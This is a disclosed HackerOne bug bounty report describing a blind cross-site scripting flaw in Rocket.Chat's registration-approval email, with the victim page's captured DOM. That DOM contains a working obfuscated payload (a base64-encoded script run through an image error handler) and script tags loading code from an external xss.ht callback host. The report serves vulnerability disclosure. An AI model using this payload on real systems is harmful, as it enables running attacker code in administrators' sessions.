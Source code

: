 # Blind XSS in the rocket.chat registration email

## Report Details
- **Report ID**: 382666
- **URL**: https://hackerone.com/reports/382666
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2018-07-17T17:09:30.273Z
- **Disclosed**: 2018-09-26T18:34:52.953Z

## Reporter
- **Username**: edoverflow
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rocket_chat

## Vulnerability Information
*Note: This report was initially sent via email and I was invited to submit this here.*

Hi team,

During an audit on a third-party, I discovered that rocket.chat Android client might be vulnerable to blind XSS. My XSS payload fired in the context of the target's rocket.chat client as you can see below — details concerning the target have been redacted.

Unfortunately, I did not take note of where exactly I submitted the payloads, but based on the canvas rendering of the page the payload fired in, I believe that the `Accounts_Admin_Email_Approval_Needed_With_Reason_Default` action is vulnerable.

{F321540}  

The results were quite surprising though. The payload apparently fired in the context of `email://4/71676`. This the DOM of the vulnerable page:

```html
<html><head>
        <meta id="meta-viewport" name="viewport" content="width=412" contenteditable="false">
        <style>
            .mail-message-content pre {
                white-space: pre-wrap !important;
            }

            .initial-load {
                /* 0x0 and 1x1 may be short-circuited by WebView */
                width: 2px;
                height: 0px;
                -webkit-transform: translate3d(0, 0, 1px);
                -webkit-animation-name: initial-load-noop-animation;
                -webkit-animation-duration: 1ms; /* doesn't matter */
            }

            /* Animating the z-position is fast and does not actually change anything in the default
            * perspective.
            */
            @-webkit-keyframes initial-load-noop-animation {
                from {
                    -webkit-transform: translate3d(0, 0, 1px);
                }
                to {
                    -webkit-transform: translate3d(0, 0, 0);
                }
            }
        </style>
    <title></title></head>
    <body id="MessageViewBody" style="margin: 0px 26.5px; padding: 0px !important; word-break: keep-all !important; word-wrap: break-word !important; width: 360px;" onpageshow="">
        <div id="MessageWebViewDiv" class="mail-message-content collapsible zoom-normal" style="user-select: auto; display: block; height: auto; padding-bottom: 5px; width: 360px;" set_width_attr="1">
            <table border="0" cellspacing="0" cellpadding="0" width="100%" bgcolor="#f3f3f3" style="color:#4a4a4a;font-family: Helvetica,Arial,sans-serif;font-size:14px;line-height:20px;border-collapse:collapse;border-spacing:0;margin:0 auto" original_width_attr="-1"><tbody><tr><td style="padding:1em"><table border="0" cellspacing="0" cellpadding="0" align="center" width="100%" style="width:100%;margin:0 auto;max-width:800px"><tbody><tr><td bgcolor="#ffffff" style="background-color:#ffffff; border: 1px solid #DDD; font-size: 10pt; font-family: Helvetica,Arial,sans-serif;"><table width="100%" border="0" cellspacing="0" cellpadding="0"><tbody><tr><td style="background-color: #04436a;"><h1 style="font-family: Helvetica,Arial,sans-serif; padding: 0 1em; margin: 0; line-height: 70px; color: #FFF;">Rocket.Chat</h1></td></tr><tr><td style="padding: 1em; font-size: 10pt; font-family: Helvetica,Arial,sans-serif;"><p>The user <b>abba (<a href="mailto:hackeroned@protonmail.com">xxxxxxx@xxxxxxx.com</a>)</b> has been registered.</p><p>Reason: <b>"&gt;<img src="x" id="dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vMjk3Mzk1NjMzOC54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7" onerror="eval(atob(this.id))"></b></p><p>Please check "Administration -&gt; Users" to activate or delete it.</p></td></tr></tbody></table></td></tr><tr><td border="0" cellspacing="0" cellpadding="0" width="100%" style="font-family: Helvetica,Arial,sans-serif; max-width: 800px; margin: 0 auto; padding: 1.5em; text-align: center; font-size: 8pt; color: #999;">Powered by <a href="https://rocket.chat" target="_blank">Rocket.Chat</a></td></tr></tbody></table></td></tr></tbody></table>

        </div>
    <!-- delete the annotation. -->
    
    <script type="text/javascript">
        var IS_RTL = 'false';
        var MSG_HIDE_ELIDED = 'VORHERIGE NACHRICHTEN AUSBLENDEN';
        var MSG_SHOW_ELIDED = 'VORHERIGE NACHRICHTEN ANZEIGEN';
        var DOC_BASE_URI = 'email://71676';
        var WIDE_VIEWPORT_WIDTH = 1440;
        var WEBVIEW_WIDTH = 1440;
        var ENABLE_CONTENT_READY = true;
        var BASE_FONT_SIZE = 3;
        var IS_AUTOFIT = true;
        var CONTENT_WIDTH = 0;
        var DENSITY_RATIO = 1.0;
        var CHANGE_VIEWPORT_WIDTH = false;
        var IS_CONVERSATION_VIEW_MODE = false;
        var IS_LARGE_SCALE = 1;
        var USE_SELECTION_CHANGE = false;
        var USE_WORD_WRAPPING = false;
		var IS_DESKTOP_MODE = false;
		var IMAGE_MENTION = 'an image is included.';
        var TABLE_MENTION = 'a table is included.';
        var IS_PART_MESSAGE = false;
    </script>
    <script type="text/javascript" src="file:///android_asset/messageview/AutoFit.js"></script>
    <script type="text/javascript" src="file:///android_asset/messageview/Selection.js"></script>
    <script type="text/javascript" src="file:///android_asset/messageview/ContentsParser.js"></script>
    <script type="text/javascript" src="file:///android_asset/messageview/Controller.js"></script>
    <script type="text/javascript" src="file:///android_asset/messageview/layout.js"></script>
    <script type="text/javascript" src="file:///android_asset/messageview/exec.js"></script><div id="initial-load-signal" class="initial-load" style="user-select: none;"></div>

<script src="https://2973956338.xss.ht"></script><script src="https://2973956338.xss.ht"></script><script src="https://2973956338.xss.ht"></script><iframe width="412" height="330" scrolling="no" style="visibility: hidden; position: absolute; top: -10000px; left: -10000px;"></iframe><iframe width="412" height="330" scrolling="no" style="visibility: hidden; position: absolute; top: -10000px; left: -10000px;"></iframe></body></html>
```

I am confident this is as a result of your code and not the target's implementation. Please do let me know though if this has something to do with the version that the target is currently running — they might be running an outdated instance of rocket.chat.

\- Ed

## Impact

An attacker can execute malicious client-side code against the target's administrator. I was able to retrieve the contents of the DOM from the administrator's notification window.

## Attachments
- image.png
